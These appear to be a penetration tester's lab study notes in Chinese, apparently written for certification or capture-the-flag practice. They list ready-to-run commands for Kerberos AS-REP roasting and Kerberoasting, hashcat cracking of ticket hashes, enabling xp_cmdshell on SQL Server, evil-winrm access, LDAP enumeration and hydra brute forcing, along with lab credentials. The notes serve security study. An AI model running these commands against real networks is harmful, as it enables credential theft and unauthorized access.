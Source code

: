 `queryuser RID`: 查某個使用者資訊\
`netshareenum`: 列出共享資料夾\
`lsaquery`: 查詢本地安全機制\
`adduser / setuserinfo`: 嘗試建立帳號或修改密碼（需高權限）
`getdompwinfo`: 取得密碼策略
>> Password Policy:
>> `DOMAIN_PASSWORD_COMPLEX`: 開啟複雜度（需大小寫、數字、符號中任兩項）\
>> `DOMAIN_PASSWORD_NO_ANON_CHANGE`: 匿名用戶不能改密碼\
>> `DOMAIN_PASSWORD_NO_CLEAR_CHANGE`: 不允許明文方式更改密碼\
>> `DOMAIN_LOCKOUT_ADMINS`:系統管理員帳戶也會被鎖定（危險設定)\
>> `DOMAIN_PASSWORD_STORE_CLEARTEXT`: 密碼可以以明文儲存\
>> `DOMAIN_REFUSE_PASSWORD_CHANGE`: 使用者不得更改自己的密碼

>[!Tip]
> `svc` 開頭帳號 → 服務帳號，常用弱密碼：\
>`svc_helpdesk`\
>`svc_mssql`\
>`svc_tpl`\
>`svc_web`

- RPC - User: Kerberos AS-REP Roasting (找到 hash 不需驗證 TGT)
    - (No User) `impacket-GetNPUsers nagoya-industries.com/ -usersfile ADuser.txt -no-pass -format hashcat -dc-ip 192.168.122.21`
    - (User) `impacket-GetUserSPNs nagoya-industries.com/Fiona.Clark:Summer2023 -dc-ip 192.168.122.21 -request`
    若都 User 需要 Kerberos pre-authentication，不能進行 AS-REP Roasting\
    針對服務帳號 Kerberoasting，取得 TGS hash
    - `impacket-GetUserSPNs nagoya-industries.com/Fiona.Clark:Summer2023 -dc-ip 192.168.122.21 -request`
    - `{TGS-REP}`
    - `hashcat -m 13100 -a 0 {TGS-REP} /usr/share/wordlists/rockyou.txt --force`
### WinRM (5985/5986)
- `evil-winrm -i {IP} -u {User} -p {PWD}`
    - upload {File}
    - download {File}
    - menu
### SQL Server
Windows 驗證：
- `impacket-mssqlclient raj:'Password@1'@192.168.31.126 -windows-auth`

SQL 驗證：
- `impacket-mssqlclient sequel.htb/rose:'KxEPkKe6R8su'@10.10.11.51`
    - 嘗試 xp_cmdshell ：`EXEC xp_cmdshell 'whoami';`
    - 手動開啟：
    - `EXEC sp_configure 'show advanced options', 1; RECONFIGURE;`
    - `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`

### Ldap
- `impacket-ldapsearch -u rose -p 'KxEPkKe6R8su' -d sequel.htb -dc-ip 10.10.11.51 -l 10.10.11.51 -t all`
- `nmap -n -sV -Pn --script "ldap* and not brute" {IP}`
- `ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://{IP}" "(objectclass=*)"`
- `ldapsearch -x -H ldap://{IP} -D '' -w '' -b "DC=vault,DC=offsec" | grep sAMAccountName`
### Webdav
- `cadaver http://{IP}/webdav/`
### hydra
- SSH
`hydra -e nsr -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt ssh://{}`
- FTP
`hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.124.46 ftp`